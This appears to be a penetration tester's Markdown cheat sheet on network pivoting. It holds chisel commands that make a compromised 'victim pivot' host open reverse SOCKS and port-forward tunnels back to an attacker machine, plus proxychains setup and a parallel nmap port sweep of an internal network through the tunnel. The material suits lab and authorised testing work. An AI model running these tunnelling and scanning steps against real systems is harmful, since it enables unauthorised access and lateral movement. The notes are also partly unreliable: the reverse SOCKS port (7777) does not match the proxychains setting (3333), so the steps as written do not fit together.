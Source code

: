 # Pivoting 

## Readme

https://cheatsheet.haax.fr/network/pivot_techniques/


##  Proxies

### Reverse proxy

Attacker <-------- Victim Pivot <-------- Next Victim

* In this scenario all ports from the victim pivot point aer redirected to attacker so attacker can access Next Victim, which
would be othervise not visible for his network adapter

./chisel server -p 3333 --reverse --socks5

./chisel_lin client 172.16.40.5:3333 R:7777:socks

sudo vim /etc/proxychains4.conf

socks5 127.0.0.1 3333

proxychains nmap -F 10.185.10.0/24

### Second pivot point Reverse Proxy

Attacker <-------- Victim Pivot 1 <-------- Victim Pivot 2 <-------- Next Victim

If second pviot point is needed then perform following actions:

Set up new server (this time non socks)

./chisel server --reverse --port 9902


Activate client on victims host

./chisel client 10.10.14.xxx:9902 R:443:127.0.0.1:443 

So now port 443 from victim can be accessed on Attacker via 127.0.0.1:443 


## scanning with nmap

* run for getting open ports
`seq 1 65535 | xargs -P 50 -I port proxychains -q nmap -p port -sT -T4 10.42.42.2 -oG 10.42.42.2 --open --append-output 10.42.42.2 -Pn -n`

* remove bad lines and save to log file
`grep '/open/' 10.42.42.2 | uniq > openports.log`

* then scan each port separately

